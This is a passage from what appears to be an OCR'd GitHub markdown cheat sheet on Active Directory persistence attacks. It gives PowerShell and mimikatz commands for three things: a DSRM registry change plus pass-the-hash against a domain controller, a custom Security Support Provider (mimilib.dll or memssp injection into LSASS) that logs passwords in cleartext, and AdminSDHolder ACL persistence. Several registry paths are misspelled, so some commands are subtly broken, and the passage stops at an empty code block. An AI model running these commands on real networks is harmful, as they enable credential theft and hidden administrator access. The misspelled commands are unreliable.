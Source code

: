 > > > `New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD`
> > >
> > > **Validate Changes**
> > >
> > > `Get-ItemProperty "HKLM:\System\CurrentConrtolSet\Control\Lsa\"`
> >
> > **Then** You can use the following command to gain access 
> >
> > ```
> > Invoke-mimikatz -Command '"sekurlsa::pth /domain:<DomainControllerName> /user:Administrator /ntlm:<CapturedValuePreviously> /run:powershell.exe"'
> > ```
> >
> > Access Directory `ls \\domainControllerName\C$`
>
> :eight: ***Security Support Provider*** -- DLL file allows the application to obtain authenticated connection 
>
> > Supported SSP Packages are NTLM, Kerberos, Wdigest, CredSSP
> >
> > mimilib.dll is a custom SSP do a keylogger for accounts passwords in clear text on target server 
> >
> > > :a: ***Injecting to LSASS*** -- Not Stable 
> > >
> > > ```
> > > Invoke-mimikatz -Command '"misc::memssp"'
> > > ```
> >
> > > :b: ***Drops mimilib.dll in System32 then add Hive***
> > >
> > > ```
> > > $package = Get-ItemProperty HKLM:\SYSTEM\CurrentContolSet\Control\Lsa\osconfig -Name 'Security Packages'| select-ExpandProperty 'Security Packages'
> > > 
> > > $package+="mimilib"
> > > 
> > > Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\osconfig\ -Name 'Security PAckages' -Value $package
> > > 
> > > Set-ItemProperty HKLM:\SYSTEM\CureentControlSet\Control\Lsa\ -Name 'Security PAckages' -Value $package
> > > ```
> > >
> > > :rotating_light: **Logs @ C:\Windows\System32\kiwissp.log**
>
> :nine: ***ACLs***
>
> > :nine: :a: ***AdminSDHolder*** : Control the permissions using an ACL for Protected Group [Static Values of ACL]
> >
> > > Security Descriptor Propagator (SDPROP) runs every hour overwritten on object ACL by comparing the ACL of protected groups and members with the ACL of AdminSDHolder 
> > >
> > >   :information_source: Add your account in the AdminSDHolder gives persistence 
> > >
> > > ***Add Full Permission for a user in AdminSDHolder*** 
> > >
> > > Need Domain Admin :rotating_light: privs to execute :point_down:
> > >
> > > > **PowerView**  
> > > >
> > > > > ```